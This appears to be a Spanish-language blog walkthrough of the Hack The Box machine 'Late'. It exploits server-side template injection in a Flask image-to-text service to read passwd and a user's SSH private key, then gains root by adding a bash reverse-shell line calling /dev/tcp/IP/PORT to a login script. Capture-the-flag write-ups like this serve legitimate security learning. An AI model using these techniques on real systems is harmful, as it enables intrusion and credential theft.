 ```yaml
---
layout      : post
title       : "Late - Hack the Box"
author      : elc4br4
image       : /assets/images/HTB/Late-HackTheBox/portada.webp
optimized_image : /assets/images/HTB/Late-HackTheBox/portada.webp
category    : [ htb ]
tags        : [ Linux ]
description : En esta ocasión vamos a resolver la máquina Late de la plataforma HackTheBox de nivel *Easy* en la que tendremos SSTI como explotación y una escalada a través de un pequeño script, que tendremos que modificar.
---
```


En esta ocasión vamos a resolver la máquina Late de la plataforma HackTheBox de nivel *Easy* en la que tendremos SSTI como explotación y una escalada a través de un pequeño script, que tendremos que modificar.

![](/assets/images/HTB/Late-Hackthebox/rating-late.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)


# Reconocimiento de Puertos

`` nmap -p- -n -Pn --min-rate 5000 ip -sCV ``

![](/assets/images/HTB/Late-Hackthebox/nmap.png)


Tenemos el puerto 22 y el puerto 80 abiertos.

Procedo a ojear el puerto 80.

# Reconocimiento Web

![](/assets/images/HTB/Late-Hackthebox/web1.png)


A primera vista no hay nada relevante, pero al mirar el código fuente de la página encuentro lo siguiente:

![](/assets/images/HTB/Late-Hackthebox/web2.png)

Encuentro un vhost que añado al archivo hosts de mi máquina.

Accedo al vhost desde el navegador y encuentro la siguiente página web.

![](/assets/images/HTB/Late-Hackthebox/web3.png)

A primera vista estamos ante una web que nos ofrece la posibilidad de convertir imágenes a documentos de texto, y que además usa la tecnología FLASK.

```text 
Flask es un framework minimalista escrito en Python que permite crear aplicaciones web rápidamente y con un mínimo número de líneas de código.
```

`` Está basado en el motor de templates Jinja2. ``

Capturo una imágen con texto, como esta y la subo para convertirla:

![](/assets/images/HTB/Late-Hackthebox/web4.png)

Una vez convertida se nos descargará un archivo bajo el nombre de results.txt con el siguiente contenido:

![](/assets/images/HTB/Late-Hackthebox/web5.png)


Como era obvio, nos convierte el texto de imágen en un documento de texto.

Esto me da que pensar que el servidor interpetará todo aquello que le pongamos en la foto, asique intento probar diferentes vulnerabilidades tales como LFI, RCE… sin éxito alguno.

Buscando por internet información relacionada con Flask y Jinja2 encuentro las siguientes fuentes.

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee]( https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

Podríamos estar ante una vulnerabilidad SSTI (Server Side Template Injection)

# Explotación

Ya que si nos fijamos en la definición de qué es Flask encontramos que está basado en el motor de templates Jinja2.

Asique procedo a buscar más información acerca de como detectar este tipo de vulnerabilidad y encuentro lo siguiente:


![](/assets/images/HTB/Late-Hackthebox/ssti.png)

Si nos copiamos uno de estos templates, y le hacemos captura y lo subimos la página web podremos comprobar si es vulnerable a SSTI.

Uso el siguiente template:
 
`` { {7 * 7} } ``

Una vez lo hemos capturado lo subimos y leemos la respuesta

![](/assets/images/HTB/Late-Hackthebox/ssti2.png)

Como vemos es vulnerable a SSTI, ya que nos devuelve el resultado de la operación 7*7=49

Sigo los pasos de la web de referencia para continuar después de haber detectado la vulnerabilidad, el siguiente paso es explotar la vulnerabilidad.

Encuentro lo siguiente:

![](/assets/images/HTB/Late-Hackthebox/ssti3.png)

Con uno de estos templates podemos leer archivos remotos del servidor.

El procedimiento es el mismo, copiar el template, capturarlo y subirlo a la web para comprobar su funcionamiento.

En mi caso probé algunos templates sin éxito hasta que di con el correcto:

![](/assets/images/HTB/Late-Hackthebox/ssti4.png)

Con este template leemos el archivo passwd

![](/assets/images/HTB/Late-Hackthebox/passwd.png)

Filtro por tipo de shell, en este caso bash

Encontramos el usuario svc_acc

A continuación intenté leer el archivo shadow por si por algún casual tuvieramos acceso y pudiéramos descifrar la contraseña del usuario svc_acc, pero obviamente no tenía permisos.

Se me ocurrió intentar leer el id_rsa del usuario svc_acc para conectarme mediante ssh (puerto 22), editando el template usado anteriormente.

![](/assets/images/HTB/Late-Hackthebox/ssti5.png)

Repetimos el procedimiento y leemos el archivo results.txt.

![](/assets/images/HTB/Late-Hackthebox/rsa.png)

Y ya tenemos el id_rsa, ahora le asignamos los permisos necesarios y nos logueamos por ssh usando la clave rsa.

![](/assets/images/HTB/Late-Hackthebox/sshrsa.png)

Listo, tengo acceso al servidor como el usuario svc_acc y ya podemos leer la flag user.txt.

# Escalada de Privilegios

A continuación toca escalar privilegios, y si nos fijamos tenemos las herramientas pspy64 y linpeas para facilitarnos la escalada.

Primero lanzo pspy64 para buscar procesos ocultos en ejecución y encuentro algo extraño.

![](/assets/images/HTB/Late-Hackthebox/pspy64.png)

Tenemos un script en bash bajo el nombre de ssh-alert.sh, leo el código y encuentro esto:

![](/assets/images/HTB/Late-Hackthebox/ssh-alert.png)

Es un script en bash que se ejecuta cuando nos logueamos por ssh.

Pruebo a introducir una reverse shell en bash para que cuanto nos logueemos nos devuelva una shell como root.

```bash
echo "bash -i >& /dev/tcp/IP/PORT 0>&1" > reverse.txt 

cat ssh-alert.sh
```

![](/assets/images/HTB/Late-Hackthebox/rev-shell.png)

Ahora nos ponemos en escucha desde el puerto que hayamos puesto en la reverse shell y nos conectamos por ssh como anteriormente.

![](/assets/images/HTB/Late-Hackthebox/root.png)

